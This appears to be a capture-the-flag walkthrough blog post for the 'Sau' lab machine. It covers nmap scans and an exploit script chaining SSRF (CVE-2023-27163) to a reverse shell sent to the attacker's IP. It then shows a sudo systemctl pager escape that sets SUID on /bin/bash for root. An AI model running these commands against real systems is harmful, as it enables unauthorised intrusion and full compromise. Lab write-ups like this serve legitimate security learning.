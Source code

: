 ```yaml
---
title: Sau
published: true
layout: post
---
```


<br />

---------------
Sau is an Easy Difficulty Linux machine that features a Request Baskets instance that is vulnerable to Server-Side Request Forgery (SSRF) via [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/JfYLuYz0vFk?si=g9tMKkHZtXBc5Asx" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.224 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Sau/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **55555/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Sau/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **55555/tcp unknown**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Sau/3.png)
<br />
<br />
<br />

Which didn't return anything.

<br />

------

<br />
### Foothold

This machine's foothold was very straightforward, a **single exploit** was required to gain the foothold, this exploit leveraged an **SSRF vulnerability** to **upload a reverse shell**.

<br />

The first thing I notice when entering the **website** on **port 55555/tcp** is a **version number**:

<br />

![](/assets/Sau/4.png)
<br />
<br />
<br />

A quick search revealed a **CVE**:

<br />

![](/assets/Sau/5.png)
<br />
<br />
<br />

So I used an ![exploit](https://github.com/davuXVI/CVE-2023-27163) from *davuXVI* to get the foothold:

```bash
./CVE_2023_27163.sh -i 10.10.11.224 -f localhost:80 -t 10.10.16.9
```

![](/assets/Sau/6.png)
<br />
<br />
<br />

And just like that we got the user flag:

<br />

![](/assets/Sau/7.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

This machine's privilege escalation is very funny, as it's through a **pager**, which I personally enjoy so much.

<br />

Enumerating possible privilege escalation vectors we discover that we can **execute `systemctl` with `sudo`**:

<br />

![](/assets/Sau/8.png)
<br />
<br />
<br />

After a glimpse at ![GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) we know how to escalate privilege:

<br />

![](/assets/Sau/9.png)
<br />
<br />
<br />

However, when we run the command, no pager is invoked:

<br />

![](/assets/Sau/10.png)

This is due we are not in an actual tty, we can fix this running:

```bash
script /dev/null -c bash
```

<br />

We can test if it worked by running this command and receiving a tty size:

```bash
stty size
```

![](/assets/Sau/11.png)
<br />
<br />
<br />

Now everything works and the pager is invoked, we can **run a command prepended by an exclamation mark to run a command**, like assigning SUID privilege to the bash binary:

```bash
!chmod u+s /bin/bash
```

![](/assets/Sau/12.png)
<br />
<br />
<br />

Now we just have to **leverage the SUID permission** running `bash -p` and get the root flag:

<br />

![](/assets/Sau/13.png)

<br />
<br />
<br />
